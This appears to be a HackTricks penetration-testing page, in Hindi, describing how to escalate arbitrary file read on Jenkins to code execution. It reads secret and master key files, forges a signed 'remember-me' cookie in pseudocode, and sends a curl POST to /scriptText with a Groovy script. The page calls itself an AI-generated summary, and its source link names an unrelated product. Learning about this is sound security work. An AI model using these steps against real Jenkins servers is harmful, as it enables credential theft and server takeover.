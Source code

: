 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

इस ब्लॉग पोस्ट में एक शानदार तरीका है कि कैसे Jenkins में एक लोकल फाइल इनक्लूजन कमजोरियों को RCE में परिवर्तित किया जा सकता है: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

यह एक AI द्वारा बनाई गई संक्षेप है उस भाग की जिसमें एक मनमाना कुकी का निर्माण RCE प्राप्त करने के लिए किया जाता है, जब तक कि मेरे पास खुद का संक्षेप बनाने का समय नहीं है:

### हमले की पूर्वापेक्षाएँ

* **विशेषता आवश्यकता:** "Remember me" सक्षम होना चाहिए (डिफ़ॉल्ट सेटिंग)।
* **एक्सेस स्तर:** हमलावर को समग्र/पढ़ने की अनुमति की आवश्यकता है।
* **गुप्त एक्सेस:** प्रमुख फ़ाइलों से बाइनरी और पाठ्य सामग्री पढ़ने की क्षमता।

### विस्तृत शोषण प्रक्रिया

#### चरण 1: डेटा संग्रहण

**उपयोगकर्ता जानकारी पुनर्प्राप्ति**

* प्रत्येक उपयोगकर्ता के लिए `$JENKINS_HOME/users/*.xml` से उपयोगकर्ता कॉन्फ़िगरेशन और रहस्यों तक पहुँचें:
* **उपयोगकर्ता नाम**
* **उपयोगकर्ता बीज**
* **टाइमस्टैम्प**
* **पासवर्ड हैश**

**गुप्त कुंजी निष्कर्षण**

* कुकी पर हस्ताक्षर करने के लिए उपयोग की जाने वाली क्रिप्टोग्राफिक कुंजियों को निकालें:
* **गुप्त कुंजी:** `$JENKINS_HOME/secret.key`
* **मास्टर कुंजी:** `$JENKINS_HOME/secrets/master.key`
* **MAC कुंजी फ़ाइल:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### चरण 2: कुकी निर्माण

**टोकन तैयारी**

*   **टोकन समाप्ति समय की गणना करें:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Adds one hour to current time
```
{% endcode %}
*   **टोकन के लिए डेटा को संयोजित करें:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC कुंजी डिक्रिप्शन**

*   **MAC कुंजी फ़ाइल को डिक्रिप्ट करें:**

```javascript
key = toAes128Key(masterKey)  // Convert master key to AES128 key format
decrypted = AES.decrypt(macFile, key)  // Decrypt the .mac file
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**हस्ताक्षर गणना**

*   **HMAC SHA256 की गणना करें:**

```javascript
mac = HmacSHA256(token, macKey)  // Compute HMAC using the token and MAC key
tokenSignature = bytesToHexString(mac)  // Convert the MAC to a hexadecimal string
```

**कुकी एन्कोडिंग**

*   **अंतिम कुकी उत्पन्न करें:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 encode the cookie data
```
{% endcode %}

#### चरण 3: कोड निष्पादन

**सत्र प्रमाणीकरण**

* **CSRF और सत्र टोकन प्राप्त करें:**
* `/crumbIssuer/api/json` पर एक अनुरोध करें ताकि `Jenkins-Crumb` प्राप्त किया जा सके।
* प्रतिक्रिया से `JSESSIONID` कैप्चर करें, जिसका उपयोग याद रखने वाली कुकी के साथ किया जाएगा।

**कमांड निष्पादन अनुरोध**

*   **Groovy स्क्रिप्ट के साथ POST अनुरोध भेजें:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy स्क्रिप्ट का उपयोग सिस्टम-स्तरीय कमांड या Jenkins वातावरण के भीतर अन्य संचालन निष्पादित करने के लिए किया जा सकता है।

उदाहरण curl कमांड यह प्रदर्शित करता है कि कैसे आवश्यक हेडर और कुकी के साथ Jenkins को अनुरोध भेजा जाए ताकि मनमाना कोड सुरक्षित रूप से निष्पादित किया जा सके।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
